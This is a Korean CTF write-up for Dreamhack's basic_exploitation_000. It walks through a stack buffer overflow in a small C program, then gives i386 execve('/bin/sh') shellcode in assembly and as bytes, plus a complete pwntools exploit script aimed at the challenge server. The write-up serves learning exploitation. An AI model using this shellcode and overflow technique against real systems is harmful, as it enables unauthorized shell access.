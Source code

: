 # [Dreamhack] basic_exploitation_000(SBO)

---

![Untitled](./[Dreamhack]_basic_exploitation_000(SBO).assets/Untitled.png)

### 문제 소스 코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}

```

### 1. 취약점 분석

- `char buf[0x80];` buf의 크기는 0x80(128byte)인데, `scanf("%141s", buf);` scanf의 입력은 141byte의 입력을 받는 것을 확인할 수 있음
- 이를 통해 buffer Over flow가 발생할 수 있고 이를 이용해서 Flag를 획득 할 수 있음

### 2. 디버깅 시작

![Untitled](./[Dreamhack]_basic_exploitation_000(SBO).assets/Untitled%201.png)

- `main` 함수에 `breakpoint` 를 설정하고 해당 어셈블리코드를 살펴봄
- `main` 함수가 시작 될 때, `push ebp` 를 통해서 함수에 스택프레임을 할당하는 것을 확인할 수 있음
- 따라서, 현재 스택 구조는 다음과 같이 구성되어, `buf` 가 할당이 됨

![Untitled](./[Dreamhack]_basic_exploitation_000(SBO).assets/Untitled%202.png)

### 3. 익스플로잇

![Untitled](./[Dreamhack]_basic_exploitation_000(SBO).assets/Untitled%203.png)

- `buf` 에다가 쉘코드를 입력하고, `Return Address` 를 해당 변수로 설정을 해준다면, 해당 쉘코드가 동작하게 되고 `/bin/sh` 를 획득 할 수 있음
- 쉘 코드를 어셈블리코드로 작성하면 다음과 같음
    - **`\x31\xc0`** : `xor eax, eax`
        - `eax` 레지스터를 0으로 설정합니다.
    - **`\x50`** : `push eax`
        - 스택에 `eax`를 푸시합니다. 여기서는 NULL 바이트를 푸시합니다.
    - **`\x68\x6e\x2f\x73\x68`** : `push 0x68732f6e`
        - 스택에 `0x68732f6e`를 푸시합니다. 이는 "n/sh" 문자열을 나타냅니다.
    - **`\x68\x2f\x2f\x62\x69`** : `push 0x69622f2f`
        - 스택에 `0x69622f2f`를 푸시합니다. 이는 "//bi" 문자열을 나타냅니다.
    - **`\x89\xe3`** : `mov ebx, esp`
        - `ebx` 레지스터에 현재 스택 포인터 값을 설정합니다. 결과적으로 `ebx`는 "/bin/sh" 문자열을 가리킵니다.
    - **`\x31\xc9`** : `xor ecx, ecx`
        - `ecx` 레지스터를 0으로 설정합니다. 이는 `argv` 배열의 끝을 나타내는 NULL 포인터로 사용됩니다.
    - **`\x31\xd2`** : `xor edx, edx`
        - `edx` 레지스터를 0으로 설정합니다. 이는 `envp` 배열의 끝을 나타내는 NULL 포인터로 사용됩니다.
    - **`\xb0\x08`** : `mov al, 0x08`
        - `al` 레지스터에 8을 설정합니다.
    - **`\x40\x40\x40`** : `inc eax; inc eax; inc eax`
        - `eax` 레지스터를 세 번 증가시킵니다. 최종적으로 `eax`는 11 (`0xb`)이 됩니다. 이는 `execve` 시스템 호출 번호입니다.
    - **`\xcd\x80`** : `int 0x80`
        - 시스템 호출 인터럽트를 발생시킵니다.
- **시스템 호출 번호 설정**: `eax`를 8로 설정하고 세 번 증가시켜 11 (`execve`)로 만듭니다.
- **시스템 호출 실행**: `int 0x80` 인터럽트를 사용하여 시스템 호출을 실행합니다.

```c
; File name: shellcode.asm
section .text
global _start
_start:
xor    eax, eax
push   eax
push   0x68732f6e              ; Push "n/sh" (reversed)
push   0x69622f2f              ; Push "//bi" (reversed)
mov    ebx, esp
xor    ecx, ecx
xor    edx, edx
mov    al, 0x8
inc    eax
inc    eax
inc    eax
int    0x80
```

- 해당 코드를 byte code로 변환하여 저장

```c
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80
```

### 4. Python 익스플로잇 코드 작성

- 익스플로잇 코드를 작성해보면 다음과 같음

```python
from pwn import *

context.arch="i386"
p = remote('host3.dreamhack.games', 19424)
p.recvuntil("buf = (")
buf_address=int(p.recv(10), 16) # 수신한 문자열을 16진수로 변환하여 정수로 저장

payload=b'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80'
payload+=b'A'*(0x80-len(payload))
payload+=b'B'*(0x4)
payload+=p32(buf_address)
# print(payload)
p.send(payload)
p.interactive()

```
